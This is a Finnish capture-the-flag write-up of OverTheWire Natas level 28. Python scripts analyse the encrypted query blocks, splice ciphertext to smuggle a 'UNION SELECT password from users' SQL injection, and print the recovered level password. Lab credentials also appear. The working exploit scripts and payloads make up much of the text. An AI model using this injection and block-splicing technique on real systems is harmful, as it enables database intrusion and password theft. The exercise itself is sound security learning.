


**JATKUU**
Nyt lisää skriptin osuutta, josta otetaan käyttöön toi SQL injketio salasanojen hakemista tietokannasta.

Tämä SQL injketio muodostaa kuin tämän komennon: `"a'*9+' UNION SELECT ALL password from users; #"` - seuraavaksi Lähettää POST-pyynnön: requests.post(...) lähettää datan palvelimelle HTTP-autentikoinnilla. Dekoodaa vastauksen: Palvelimen vastaus dekoodataan ensin URL:stä, sitten base64:stä, ja lopuksi hex-muotoon. Tulostaa salatun datan lohkoina: Skripti pilkkoo salatun vastauksen 32 tavun lohkoihin ja tulostaa ne.

```
import requests
from urllib.parse import unquote
import binascii
import base64

url = "http://natas28.natas.labs.overthewire.org/index.php"
username = "natas28"
password = "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj"

# Peruslohkoanalyysi
for i in range(1, 50):
    data = {"query": "a" * i}
    data_length = len(data['query'])
    res = requests.post(url=url, data=data, auth=(username, password))
    encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
    encrypted_raw_length = len(encrypted_raw)
    print("input Length: " + str(data_length) + " Encrypted query Length: " + str(encrypted_raw_length))
    block_size = 32
    for i in range(encrypted_raw_length // block_size):
        print(encrypted_raw[block_size * i : block_size * (i + 1)])
    print("=" * 40)

# Tarkka testisyöte: "a"*11 + "!"
data = {"query": "a" * 11 + "!"}
data_length = len(data['query'])
res = requests.post(url=url, data=data, auth=(username, password))
encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
encrypted_raw_length = len(encrypted_raw)
print("input Length: " + str(data_length) + " Encrypted query Length: " + str(encrypted_raw_length))
for i in range(encrypted_raw_length // block_size):
    print(encrypted_raw[block_size * i : block_size * (i + 1)])
print("=" * 40)

# Tarkka testisyöte: "a"*12
data = {"query": "a" * 12}
data_length = len(data['query'])
res = requests.post(url=url, data=data, auth=(username, password))
encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
encrypted_raw_length = len(encrypted_raw)
print("input Length: " + str(data_length) + " Encrypted query Length: " + str(encrypted_raw_length))
for i in range(encrypted_raw_length // block_size):
    print(encrypted_raw[block_size * i : block_size * (i + 1)])
print("=" * 40)

# Tarkka testisyöte ja tässä tapahtuu SQL injektio osuus:
data = {"query":"a'*10+' UNION SELECT ALL password from users; #"}
data_length = len(data['query'])

res = requests.post(url=url, data=data, auth=(username, password))
encrypted_raw = binascii.hexlify(base64.b64decode(unquote(res.url[60:]))).decode()
encrypted_raw_length = len(encrypted_raw)
print("input Length: "+str(data_length)+" Encrypted query Length: "+str(encrypted_raw_length)+"\n")

block_size = 32
for i in range(encrypted_raw_length//block_size):
    print(encrypted_raw[block_size*i:block_size*(i+1)])
print("="*40)
```


**TULOS** skippasin osan, ettei tule turhan pitkä tulosta ja tuloksena on **input length 46 encrypted query length: 256** osa.

```
┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ sudo nano pythonkoodi28-2.py
[sudo] password for kali: 
                                                                                                                                                  
┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ python pythonkoodi28-2.py   
input Length: 1 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
ab880a8f136fbeb98967891324a1b075
bdfa1054ec68515cf96f2a5544591947
904f4b2abf2c2d7686aa72a53151c970
========================================
input Length: 2 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
b130a531bec89c705213bfa5c9667ac7
48799a07b1d29b5982015c9355c2e00e
aded9bdbaca6a73b71b35a010d2c4c57
========================================
input Length: 3 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
2f5293a63acb9fe8c7b4e824b76d6a1d
9a2e2b5db6f31f19a14f75678eadaa90
4249b93e4dea0909479995b9c44b351a
========================================
input Length: 4 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
3504a9a9675ffd614b4f1f90d284fcaa
29287f3cc5479e12e66f31c863b18047
56d5732dc8c770f64397158bc17a6e66
========================================

....................
.........................
========================================
input Length: 43 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
b4eda087d3c0bea2bedc1b6140b9e2eb
ca8cf4e610913abae39a067619204a5a
========================================
input Length: 44 Encrypted query Length: 224
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
ce82a9553b65b81280fb6d3bf2900f47
75fd5044fd063d26f6bb7f734b41c899
========================================
input Length: 45 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
1f74714d76fcc5d464c6a221e6ed98e4
6223a14d9c4291b98775b03fbc73d4ed
d8ae51d7da71b2b083d919a0d7b88b98
========================================
input Length: 46 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
ecd36f8fd9164d403540e449707d27e5
4257a343daadaaf2c0e3a1d71ce03dd1
7b7baca655f298a321e90e3f7a60d4d8
========================================
input Length: 47 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
5aef2a997da2363f72a3fad332d1736f
a773f3185094aa01408f1f97d037d385
678c5773ecc28f870e4f4ebc6c8070a4
========================================
input Length: 48 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
8925158cfc5ac06d22bfda0b72c8f151
a77e8ed1aabe0b5d05c4ffe6ac1423ab
478eb1a1fe261a2c6c15061109b3feda
========================================
input Length: 49 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
adf8a1ad0177ed1ecad3ac7c1082aa9e
bdfa1054ec68515cf96f2a5544591947
904f4b2abf2c2d7686aa72a53151c970
========================================
input Length: 12 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
909a68162c84bd23156c942120760d4b
75fd5044fd063d26f6bb7f734b41c899
========================================
input Length: 12 Encrypted query Length: 160
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
ce82a9553b65b81280fb6d3bf2900f47
75fd5044fd063d26f6bb7f734b41c899
========================================
input Length: 46 Encrypted query Length: 256

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
31025c86794ef75f6dc14016e3db8db8
4ce5ce96547e1a11895d05ba233f83f1
8c11f169f0d8c2b9ef2739011035e2b0
f39d4d288c0c48b2a531d366e5d2974e
a77e8ed1aabe0b5d05c4ffe6ac1423ab
478eb1a1fe261a2c6c15061109b3feda
========================================
```




**PIENTÄ käsittely ja checkkausta, ja miksi tämä osuus?**

Tässä on kyse siitä, miten **salaus lohkoo syötteen**, ja miten pieni muutos syötteessä voi vaikuttaa useisiin lohkoihin.

Koska skriptin osuudessa: `data = {"query":"a'*9+' UNION SELECT ALL password from users; #"}` - joka pituus on 46 merkkiä ja se tulosti nyt (alle) sen tulosteensa ja tämä on se injektio, mikä se mukana tuloistaisi.

(TÄMÄ ON SE JONOSSA OLEVA TULOS ja alempi on jälkimmäinen tulostus, sekä näillä on jotakin eroja):

Koska testisyötteitä on monta peräkkäin, ja ne kaikki tulostavat samanlaisen lohkorakenteen. Jos et katso tarkasti input Length -riviä, voi tuntua siltä, että injektio puuttuu. 

- Vaikka syötteen pituus oli sama (46 merkkiä), syötteen sisältö oli eri, ja se riittää muuttamaan salauksen lopputuloksen täysin.
- Ensimmäinen 46-merkkinen syöte saattoi olla: `a'*9+' UNION SELECT ALL password from users; #`
- Toinen 46-merkkinen syöte saattoi olla: `a'*9+' UNION SELECT ALL username from users; #`
- vaikka vain yksi merkki olisi eri, se muuttaa koko salausketjun CBC:ssä
- Tämä kertoo, että syötteen keskiosa on muuttunut — esimerkiksi password vs. username.

```
========================================
input Length: 46 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
ecd36f8fd9164d403540e449707d27e5
4257a343daadaaf2c0e3a1d71ce03dd1
7b7baca655f298a321e90e3f7a60d4d8
========================================
========================================
========================================
input Length: 46 Encrypted query Length: 256

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
31025c86794ef75f6dc14016e3db8db8
4ce5ce96547e1a11895d05ba233f83f1
8c11f169f0d8c2b9ef2739011035e2b0
f39d4d288c0c48b2a531d366e5d2974e
a77e8ed1aabe0b5d05c4ffe6ac1423ab
478eb1a1fe261a2c6c15061109b3feda
========================================
```


**Seuraavaksi**, tästä samasta skriptistä muutin **10 a:ta**, että katsotaan mitä tapahtuu seuraavaksi ja mitä se tulostaa, että sama jono ja loppu viimeisen syötteestä, sekä tästä sijoitettaan tuohon **cyberchef** sivuston alle ja tehdään munnosta.

Kysyin tekoälyltä apua, kun sitä tulisi vaikeaksi ja tulostuksena viee paljon aikaa, mutta näin tuli ja rakennettua uusiksi vähäsen sitä skriptiä

```
========================================
input Length: 46 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
ecd36f8fd9164d403540e449707d27e5
4257a343daadaaf2c0e3a1d71ce03dd1
7b7baca655f298a321e90e3f7a60d4d8
========================================
input Length: 47 Encrypted query Length: 256
1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
c0872dee8bc90b1156913b08a223a39e
b39038c28df79b65d26151df58f7eaa3
b39038c28df79b65d26151df58f7eaa3
5aef2a997da2363f72a3fad332d1736f
a773f3185094aa01408f1f97d037d385
678c5773ecc28f870e4f4ebc6c8070a4
========================================
input Length: 47 Encrypted query Length: 256

1be82511a7ba5bfd578c0eef466db59c
dc84728fdcf89d93751d10a7c75c8cf2
4b56ca716b37366b18f3c0f535028c6b
ec98712ce5e2f00d7039564043977092
85ae8c8531360734c5b2a589ead91d94
ca2e1ac5c631a4d96bf2cf8de11e5f18
bdfa1054ec68515cf96f2a5544591947
904f4b2abf2c2d7686aa72a53151c970
```


Seuraavaksi taas lisää python skriptiä, mutta lisä osia kosiken tätä natas 28 leveliä

```
┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ cat pythonkoodi28-3.py
import requests
from urllib.parse import unquote, quote
import binascii
import base64

# 🔐 Tiedot
url = "http://natas28.natas.labs.overthewire.org/index.php"
username = "natas28"
password = "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj"
block_size = 32

# 🔹 1. Luo salattu lohko "aaaaaaaaaa"
data_clean = {"query": "aaaaaaaaaa"}
res_clean = requests.post(url=url, data=data_clean, auth=(username, password))
encrypted_clean = binascii.hexlify(base64.b64decode(unquote(res_clean.url[60:]))).decode()
block_aaaa = encrypted_clean[block_size:2*block_size]  # toinen lohko
print("[+] Encrypted block for 'aaaaaaaaaa':", block_aaaa)

# 🔹 2. Luo SQL-injektio ja pura lohkot
injection = "a'*10+' UNION SELECT ALL password from users; #"
data_inject = {"query": injection}
res_inject = requests.post(url=url, data=data_inject, auth=(username, password))
encrypted_inject = binascii.hexlify(base64.b64decode(unquote(res_inject.url[60:]))).decode()

# Tulosta alkuperäiset lohkot
print("\n[+] Original injection blocks:")
for i in range(len(encrypted_inject)//block_size):
    print(f"Block {i}: {encrypted_inject[block_size*i:block_size*(i+1)]}")

# 🔹 3. Rakenna uusi salattu kysely
block0 = encrypted_inject[0:block_size]              # alku
block2 = encrypted_inject[2*block_size:3*block_size] # injektion alku

crafted_encrypted = block0 + block_aaaa + block2
crafted_bytes = binascii.unhexlify(crafted_encrypted)
crafted_b64 = base64.b64encode(crafted_bytes).decode()
crafted_url = quote(crafted_b64)

# 🔹 4. Tulosta lopullinen URL-parametri
print("\n[+] Final crafted URL parameter:")
print(crafted_url)

# 🔹 5. (Valinnainen) Testaa palvelimella
test_url = f"{url}?query={crafted_url}"
print("\n[+] Test this URL in browser or with requests:")
print(test_url)


┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ python pythonkoodi28-3.py            
[+] Encrypted block for 'aaaaaaaaaa': dc84728fdcf89d93751d10a7c75c8cf2

[+] Original injection blocks:
Block 0: 1be82511a7ba5bfd578c0eef466db59c
Block 1: dc84728fdcf89d93751d10a7c75c8cf2
Block 2: 4b56ca716b37366b18f3c0f535028c6b
Block 3: ec98712ce5e2f00d7039564043977092
Block 4: 85ae8c8531360734c5b2a589ead91d94
Block 5: ca2e1ac5c631a4d96bf2cf8de11e5f18
Block 6: bdfa1054ec68515cf96f2a5544591947
Block 7: 904f4b2abf2c2d7686aa72a53151c970

[+] Final crafted URL parameter:
G%2BglEae6W/1XjA7vRm21nNyEco/c%2BJ2TdR0Qp8dcjPJLVspxazc2axjzwPU1Aoxr

[+] Test this URL in browser or with requests:
http://natas28.natas.labs.overthewire.org/index.php?query=G%2BglEae6W/1XjA7vRm21nNyEco/c%2BJ2TdR0Qp8dcjPJLVspxazc2axjzwPU1Aoxr
```




Tässä alkoi vähitelen tulla ongelmia, että en ymmärrä miten se viimeismmän tuloksensa siis tästä URL parametristä muunnettu URL encode ja siitä liittä `query=` peräänsä, ettei anna vastausta?

Kuitenkin otettiin tämä ylempi skripti python ja toisesta skripty python + copilot apua, että rakentaa toimivaksi, jotta se toimii samalla tavalla. Pientä uutta ominaisuutta:

- rakennettu salattu kysely lohkoista, jotka sisältävät SQL-injektiota
- Säilytetään alkuperäinen header ja footer 
- Poimitaan vain ne lohkot, jotka sisältävät injektion ytimen
- Tulostetaan kaikki välivaiheet selkeästi, jotta näet miten syöte muuttuu

Kuitenkin python skriptistä tuli uusiksi ja piti rakentaa vähä toisenlaisella muodolla:

```
┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ cat pythonkoodi28-3.2.py                    
# tämä on korjattu versio 3.2.

import requests
from urllib.parse import unquote, quote
import binascii
import base64

# 🔐 Tiedot
base_url = "http://natas28.natas.labs.overthewire.org"
index_url = f"{base_url}/index.php"
search_url = f"{base_url}/search.php"
username = "natas28"
password = "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj"
block_size_bytes = 16
block_size_hex = block_size_bytes * 2

# 🔹 1. Luo baseline: tyhjä kysely (10 välilyöntiä)
baseline_query = " " * 10
res_baseline = requests.post(index_url, data={"query": baseline_query}, auth=(username, password))
baseline_b64 = unquote(res_baseline.url.split('=')[1])
baseline_bytes = base64.b64decode(baseline_b64)
baseline_hex = binascii.hexlify(baseline_bytes).decode()

print("[+] Baseline hex:")
print(baseline_hex)
print(f"[+] Total length: {len(baseline_hex)} hex chars ({len(baseline_hex)//block_size_hex} blocks)")

# Poimi header ja footer
header = baseline_bytes[:48]  # 3 lohkoa
footer = baseline_bytes[48:]  # loput

# 🔹 2. Luo SQL-injektio
injection = "         ' UNION ALL SELECT password FROM users;#"
print(f"\n[+] Injection string:\n{injection}")
print(f"[+] Injection length: {len(injection)} characters")

res_inject = requests.post(index_url, data={"query": injection}, auth=(username, password))
inject_b64 = unquote(res_inject.url.split('=')[1])
inject_bytes = base64.b64decode(inject_b64)
inject_hex = binascii.hexlify(inject_bytes).decode()

print("\n[+] Injection hex:")
print(inject_hex)
print(f"[+] Total length: {len(inject_hex)} hex chars ({len(inject_hex)//block_size_hex} blocks)")

# 🔹 3. Tulosta lohkot
print("\n[+] Injection blocks:")
inject_blocks = []
for i in range(len(inject_bytes) // block_size_bytes):
    block = inject_bytes[i*block_size_bytes:(i+1)*block_size_bytes]
    inject_blocks.append(block)
    print(f"Block {i}: {binascii.hexlify(block).decode()}")

# 🔹 4. Poimi injektion ytimen lohkot (lohko 3–6)
middle = b''.join(inject_blocks[3:7])  # voit säätää lohkoja tarpeen mukaan

# 🔹 5. Rakenna lopullinen salattu kysely
final_bytes = header + middle + footer
final_b64 = base64.b64encode(final_bytes).decode()
final_url = quote(final_b64, safe='')

print("\n[+] Final crafted URL parameter:")
print(final_url)

# 🔹 6. Testaa palvelimella
print("\n[+] Sending final request to search.php...")
res_final = requests.get(search_url, params={"query": final_b64}, auth=(username, password))
print("\n[+] Server response:")
print(res_final.text)
```

Heti runnattua tämän skriptin (ylempi osan) niin tulostus tuli näin ja mitä ihmettä?? Kyllä se antoi vastauksensa, mutta miksi ja miten?? Kuitenkin tässä koskien aikaisempien skriptien osuutta ja kysyin tekoälyltä miten, miksi ja pitää olla selkeä välivaihe (kuin matetatiikkassa). Pieni muistutus, tämän alempi `pythonkoodi28-3.2.py` otin toisesta python koodista apua ja näin ollen saattiin combo yhdistäminen että "injection blocks" antoi meille vastauksensa ja näin ollen saattin apua.

```
┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ python pythonkoodi28-3.2.py
[+] Baseline hex:
1be82511a7ba5bfd578c0eef466db59cdc84728fdcf89d93751d10a7c75c8cf22d94c337a938b39110793f6cd8c49b1b738a5ffb4a4500246775175ae596bbd6f34df339c69edce11f6650bbced62702
[+] Total length: 160 hex chars (5 blocks)

[+] Injection string:
         ' UNION ALL SELECT password FROM users;#
[+] Injection length: 49 characters

[+] Injection hex:
1be82511a7ba5bfd578c0eef466db59cdc84728fdcf89d93751d10a7c75c8cf23917a542aa9c15d450a53927be3860e5574d86bbdcff747464514968f43c92401f26b6ae470f5fc111eb274c0c213e95c0db24b5274ba212d1b06e990c8db29f48799a07b1d29b5982015c9355c2e00eaded9bdbaca6a73b71b35a010d2c4c57
[+] Total length: 256 hex chars (8 blocks)

[+] Injection blocks:
Block 0: 1be82511a7ba5bfd578c0eef466db59c
Block 1: dc84728fdcf89d93751d10a7c75c8cf2
Block 2: 3917a542aa9c15d450a53927be3860e5
Block 3: 574d86bbdcff747464514968f43c9240
Block 4: 1f26b6ae470f5fc111eb274c0c213e95
Block 5: c0db24b5274ba212d1b06e990c8db29f
Block 6: 48799a07b1d29b5982015c9355c2e00e
Block 7: aded9bdbaca6a73b71b35a010d2c4c57

[+] Final crafted URL parameter:
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsbV02Gu9z%2FdHRkUUlo9DySQB8mtq5HD1%2FBEesnTAwhPpXA2yS1J0uiEtGwbpkMjbKfSHmaB7HSm1mCAVyTVcLgDnOKX%2FtKRQAkZ3UXWuWWu9bzTfM5xp7c4R9mULvO1icC

[+] Sending final request to search.php...

[+] Server response:
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas28", "pass": "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj" };</script></head>
<body>
<!-- morla/10111 -->
<h1>natas28</h1>
<style>
ul {
  margin: 1em 0;
  padding: 0 0 0 40px;
}

li {
  margin: 1em 0;
}
</style>
<div id="content">
<h2> Whack Computer Joke Database</h2><ul><li>31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns</li></ul>
</div>
</body>
</html>
```




## muita tekstaukset

```
┌──(kali㉿kali)-[~]
└─$ curl -s -X POST -d "query=test" -u natas28:1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj "http://natas28.natas.labs.overthewire.org/search.php"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas28", "pass": "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj" };</script></head>
<body>
<!-- morla/10111 -->
<h1>natas28</h1>
<style>
ul {
  margin: 1em 0;
  padding: 0 0 0 40px;
}

li {
  margin: 1em 0;
}
</style>
<div id="content">
<br />
<b>Notice</b>:  Trying to access array offset on value of type bool in <b>/var/www/natas/natas28/search.php</b> on line <b>59</b><br />
Zero padding found instead of PKCS#7 padding  
```

normi testauksena testasin normi sql-injektion merkin ' - niin toistui ja kertoi valmiit vitsinsä:





## toinen python koodi

otettu toinen skripti apua ja vihjettä, mutta siinä oli jotakin väärin kirjoitettu ja tätä korjasi copilot niin apua sai. 

ongelmana miksi tämä toimii entä ne aikaisemamt ja mikä eroana siin on ja missä oli virhe edes?


```
import requests
import urllib
import base64

conn_url = "http://natas28.natas.labs.overthewire.org"
conn = requests.Session()
conn.auth = ('natas28', '1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj')

# First we generate a baseline for the header/footer
data = {'query': 10 * ' '}
resp = conn.post(conn_url, data=data)
meat = urllib.parse.unquote(resp.url.split('=')[1])
meat = base64.b64decode(meat.encode('utf-8'))
header = meat[:48]
footer = meat[48:]

# SQL injection payload
sqli = 9 * " " + "' UNION ALL SELECT password FROM users;#"
data = {'query': sqli}
resp = conn.post(conn_url, data=data)
exploit = urllib.parse.unquote(resp.url.split('=')[1])
exploit = base64.b64decode(exploit.encode('utf-8'))

# Calculating the size of the payload
nblocks = len(sqli) - 10
while nblocks % 16 != 0:
    nblocks += 1
nblocks = int(nblocks / 16)

# Constructing final ciphertext
final = header + exploit[48:(48 + 16 * nblocks)] + footer
final_ciphertext = base64.b64encode(final)

# Sending final request
search_url = "http://natas28.natas.labs.overthewire.org/search.php"
resp = conn.get(search_url, params={"query": final_ciphertext})
print(resp.text)
```

perus otin tämän toisen python skriptin niin alkoi pelittää ja miksi??

```
┌──(kali㉿kali)-[~/Desktop/Python koodit]
└─$ python pythonkoodi28-test1.py   
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas28", "pass": "1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj" };</script></head>
<body>
<!-- morla/10111 -->
<h1>natas28</h1>
<style>
ul {
  margin: 1em 0;
  padding: 0 0 0 40px;
}

li {
  margin: 1em 0;
}
</style>
<div id="content">
<h2> Whack Computer Joke Database</h2><ul><li>31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns</li></ul>
</div>
</body>
</html>
```


## mini yhteenveto 

Tämä on vain pieni yhteenveto koskien tästä harjoituksesta


Tässä haasteessa oli tarkoitus murtaa salattu URL-parametri, joka sisältää käyttäjän syötteen `(query)`. Palvelin salaa syötteen ja liittää sen URL:iin, ja kun käyttäjä lähettää sen takaisin, palvelin purkaa sen ja suorittaa SQL-kyselyn.


🔐 Salausmenetelmä:
- Käytössä oli CBC-salaus (Cipher Block Chaining), ei ECB.
- CBC jakaa syötteen lohkoihin, ja jokainen lohko vaikuttaa seuraavaan.
